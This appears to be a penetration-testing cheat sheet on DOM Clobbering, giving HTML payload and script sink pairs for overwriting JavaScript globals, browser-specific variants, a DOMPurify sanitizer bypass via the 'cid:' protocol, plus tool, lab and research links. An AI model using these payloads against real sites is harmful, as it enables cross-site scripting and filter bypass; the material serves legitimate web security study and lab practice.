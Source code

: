 # DOM Clobbering

> DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
- [Lab](#lab)
- [References](#references)


## Tools

- [SoheilKhodayari/DOMClobbering](https://domclob.xyz/domc_markups/list) - Comprehensive List of DOM Clobbering Payloads for Mobile and Desktop Web Browsers
- [yeswehack/Dom-Explorer](https://github.com/yeswehack/Dom-Explorer) - a web-based tool designed for testing various HTML parsers and sanitizers.
- [yeswehack/Dom-Explorer Live](https://yeswehack.github.io/Dom-Explorer/dom-explorer#eyJpbnB1dCI6IiIsInBpcGVsaW5lcyI6W3siaWQiOiJ0ZGpvZjYwNSIsIm5hbWUiOiJEb20gVHJlZSIsInBpcGVzIjpbeyJuYW1lIjoiRG9tUGFyc2VyIiwiaWQiOiJhYjU1anN2YyIsImhpZGUiOmZhbHNlLCJza2lwIjpmYWxzZSwib3B0cyI6eyJ0eXBlIjoidGV4dC9odG1sIiwic2VsZWN0b3IiOiJib2R5Iiwib3V0cHV0IjoiaW5uZXJIVE1MIiwiYWRkRG9jdHlwZSI6dHJ1ZX19XX1dfQ==) - reveal how browsers parse HTML and find mutated XSS vulnerabilities


## Methodology

Exploitation requires any kind of `HTML injection` in the page.

* Clobbering `x.y.value`
    ```html
    // Payload
    <form id=x><output id=y>I've been clobbered</output>

    // Sink
    <script>alert(x.y.value);</script>
    ```

* Clobbering `x.y` using ID and name attributes together to form a DOM collection
    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">

    // Sink
    <script>alert(x.y)</script>
    ```

* Clobbering `x.y.z` - 3 levels deep
    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // Sink
    <script>alert(x.y.z)</script>
    ```

* Clobbering `a.b.c.d` - more than 3 levels
    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // Sink
    <script>alert(a.b.c.d)</script>
    ```

* Clobbering `forEach` (Chrome only)
    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

* Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute
    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

* Clobbering `x.username`
    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

* Clobbering (Firefox only)
    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

* Clobbering (Chrome only)
    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```


## Tricks

* DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`


## Lab

- [PortSwigger - Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
- [PortSwigger - Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
- [PortSwigger - DOM clobbering test case protected by CSP](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)


## References

- [Bypassing CSP via DOM clobbering - Gareth Heyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [DOM Clobbering - HackTricks - January 27, 2023](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
- [DOM Clobbering - PortSwigger - September 25, 2020](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [DOM Clobbering strikes back - Gareth Heyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
- [Hijacking service workers via DOM Clobbering - Gareth Heyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)